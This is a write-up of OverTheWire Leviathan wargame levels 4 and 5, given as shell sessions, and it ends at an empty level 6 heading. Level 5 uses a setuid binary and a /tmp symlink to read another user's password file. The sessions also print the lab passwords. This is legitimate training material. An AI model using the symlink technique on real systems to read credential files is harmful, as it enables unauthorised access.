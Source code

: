 
## Level 04 Solution

This one required a bit of *bash-fu* but nothing to worry about...

```bash
$ ssh leviathan4@leviathan.labs.overthewire.org -p 2223

leviathan4@leviathan:~$ ls -la
total 24
drwxr-xr-x  3 root root       4096 Oct 29 21:17 .
drwxr-xr-x 10 root root       4096 Oct 29 21:17 ..
-rw-r--r--  1 root root        220 May 15  2017 .bash_logout
-rw-r--r--  1 root root       3526 May 15  2017 .bashrc
-rw-r--r--  1 root root        675 May 15  2017 .profile
dr-xr-x---  2 root leviathan4 4096 Oct 29 21:17 .trash
leviathan4@leviathan:~$ cd .trash/
leviathan4@leviathan:~/.trash$ ls
bin
leviathan4@leviathan:~/.trash$ ./bin 
01010100 01101001 01110100 01101000 00110100 01100011 01101111 01101011 01100101 01101001 00001010 
leviathan4@leviathan:~/.trash$ ./bin | sed 's/ //g' | perl -lpe '$_=pack"B*",$_'
Tith4cokei
```

## Level 05 Solution

Symbolic links ftw !

```bash
$ ssh leviathan5@leviathan.labs.overthewire.org -p 2223

leviathan5@leviathan:~$ ls -la
total 28
drwxr-xr-x  2 root       root       4096 Oct 29 21:17 .
drwxr-xr-x 10 root       root       4096 Oct 29 21:17 ..
-rw-r--r--  1 root       root        220 May 15  2017 .bash_logout
-rw-r--r--  1 root       root       3526 May 15  2017 .bashrc
-r-sr-x---  1 leviathan6 leviathan5 7560 Oct 29 21:17 leviathan5
-rw-r--r--  1 root       root        675 May 15  2017 .profile
leviathan5@leviathan:~$ ./leviathan5 
Cannot find /tmp/file.log
leviathan5@leviathan:~$ echo foo > /tmp/file.log
leviathan5@leviathan:~$ ./leviathan5 
foo
leviathan5@leviathan:~$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
leviathan5@leviathan:~$ ./leviathan5 
UgaoFee4li
```

## Level 06 Solution
